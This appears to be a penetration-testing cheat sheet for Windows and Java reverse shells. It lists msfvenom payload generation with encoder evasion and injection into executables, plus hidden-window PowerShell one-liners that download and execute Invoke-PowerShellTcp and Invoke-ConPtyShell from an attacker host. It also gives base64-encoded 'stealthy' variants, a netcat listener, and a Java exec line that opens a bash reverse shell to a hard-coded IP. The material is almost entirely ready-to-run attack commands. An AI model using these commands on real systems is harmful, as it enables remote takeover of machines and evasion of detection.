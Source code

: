 ```bash
#General
msfvenom -p [PAYLOAD] LHOST=[YOUR_IP] LPORT=[YOUR_PORT] -f [FORMAT] -e [ENCODER] -i [ITERATIONS] > [payload]
#shitaka_ga_nai
msfvenom -p [PAYLOAD] LHOST=[YOUR_IP] LPORT=[YOUR_PORT] -f [FORMAT] -e x86/shikata_ga_nai -i 10  > [payload]
```
- <mark>Payload Injection</mark>
```bash
msfvenom -p [PAYLOAD] LHOST=[YOUR_IP] LPORT=[YOUR_PORT] -f [FORMAT] -x <Path to Executable> -k > [payload]
```
### Invoke-PowerShellTcp 
-  <mark>Basic Use</mark>
```bash
Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [Port]
```
-  <mark>One-Liner</mark>
```bash
# To be executed within CMD prompt
powershell.exe -nop -w hidden -c iex(iwr http://[IP]:[Port]/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [Port]
```

```bash
# When you need to be more stealthy
# Conversion needs to be done using `UTF-16LE` encoding. 
# Otherwise, it won't decode properly.
powershell.exe -nop -w hidden -e [Base64_Encoded_Command]
```
### Invoke-ConPtyShell
-  <mark>Basic Use</mark>
```bash
#Spawn a reverse shell
Invoke-ConPtyShell [IP] [Port]
#Spawn a reverse shell with specific rows and cols size
Invoke-ConPtyShell -RemoteIp [IP] -RemotePort [Port] -Rows 30 -Cols 90
#Spawn a reverse shell (cmd.exe) with specific rows and cols size
Invoke-ConPtyShell -RemoteIp [IP] -RemotePort [Port] -Rows 30 -Cols 90 -CommandLine cmd.exe
#Upgrade your current shell with specific rows and cols size
Invoke-ConPtyShell -Upgrade -Rows 30 -Cols 90
```
-  <mark>One-Liner</mark>
```bash
# On Attacker Machine
stty raw -echo; (stty size; cat) | nc -lvnp [Port]
# To be executed within CMD prompt
powershell.exe -nop -w hidden -c iex(iwr http://[IP]:[Port]/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell [IP] [Port]
```

```bash
# When you need to be more stealthy
# Conversion needs to be done using `UTF-16LE` encoding.Otherwise, it won't decode properly.
powershell.exe -nop -w hidden -e [Base64_Encoded_Command]
```
### Java
```java
java.lang.Runtime.getRuntime().exec('bash -c $@|bash 0 echo [Command]')
// e.g 'bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.45.229/443 0>&1'
```